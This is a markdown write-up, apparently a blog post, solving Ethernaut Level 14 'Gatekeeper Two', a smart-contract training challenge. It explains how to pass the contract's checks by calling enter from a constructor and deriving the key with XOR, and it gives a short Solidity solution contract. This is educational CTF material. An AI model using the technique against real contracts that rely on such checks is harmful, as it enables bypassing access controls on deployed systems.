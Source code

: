 ```yaml
---
title: Level 14 - Gatekeeper Two
slug: level-14
published: 05-23-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut14.svg
---
```


## Objectives

1. Get past the three `require` function and register as an entrant.

## Vulnerabilities

N/A, It's a technical skill test.

## Exploit

1. The first two `require` conditions are seemingly **mutualy exclusive**. Therefore a little imagination is required here.
   Calling the `enter` function from a `constructor` will result in successfully passing the second require condition.

2. Finding the value of the bytes8 key can seem daunting. That being said, the `^` operator or <InlineMath>\oplus </InlineMath> in math is **reversible**.
   This means that <InlineMath> a \oplus b = c \Leftrightarrow a \oplus c = b</InlineMath>.

3. With those two ideas in mind, write and deploy the following contract to make yourself the `entrant` :

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./GatekeeperTwo.sol";

contract GatekeeperTwoHack {
    constructor(address _targetAddress){
        GatekeeperTwo target = GatekeeperTwo(_targetAddress);
        bytes8 key = bytes8(type(uint64).max ^ uint64(bytes8(keccak256(abi.encodePacked(address(this))))));

        target.enter(key);
    }
}
```

## Suggested mitigation

N/A, It's a technical skill test.

## Further reading

- Bitwise operations <ExternalLink href={"https://en.wikipedia.org/wiki/Bitwise_operation"} />
